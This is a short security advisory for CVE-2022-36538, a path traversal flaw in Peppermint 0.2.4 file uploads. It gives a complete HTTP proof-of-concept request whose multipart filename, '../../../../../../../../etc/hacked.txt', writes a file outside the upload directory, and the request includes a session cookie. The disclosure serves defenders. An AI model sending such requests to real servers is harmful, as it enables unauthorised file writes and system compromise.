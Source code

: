 # Peppermint-Lab  - Path Traversal


**CVE-ID:** CVE-2022-36538


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical


## Details

An attacker can upload files to any location on the server.

The following request creates a text file in `/etc/hacked.txt`.


```http
POST /api/v1/users/file/upload HTTP/1.1
Host: localhost:5000
Content-Length: 608
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykBOktxIBgtA2RNvF
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/?x=hafut9m31%5C%3C%3E%27%22%3A
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: next-auth.callback-url=http%3A%2F%2Flocalhost%3A5000%2F; next-auth.session-token=eyJhbGciOiJkaXIiLCJlbmMiOiJBMjU2R0NNIn0..QRlwsSQIj2KJe5xC.8ESNMapwdVYhvnxjfM6Bs_BKEdYCE1SqLoqYi1em786fDlr5wmyfduI0jvyat-Y8l5I8aBnv1Ghe59d0vyzUL_6WKTB5nMbefxb1UJwha07Fpy4Q0kcHpNrtvJC-h4N4w0Asn4kVpa71-h8ob2uXVPF9gmY7nBDCMpRAEJsIHxK4bHOVc3t1QnZgyQE0RmNWB--NPimJhC6xbzBjO5TkwP3QcdcxSTJe5j5MLp4-XjwgAUSKcRXu00UCewrrWVE1Cz5xOXT32dJ6vCo.rw4PmSKJYAiAwfHjv2yE0w
Connection: close

------WebKitFormBoundarykBOktxIBgtA2RNvF
Content-Disposition: form-data; name="file"; filename="../../../../../../../../etc/hacked.txt"
Content-Type: plain/text

test

------WebKitFormBoundarykBOktxIBgtA2RNvF--
```

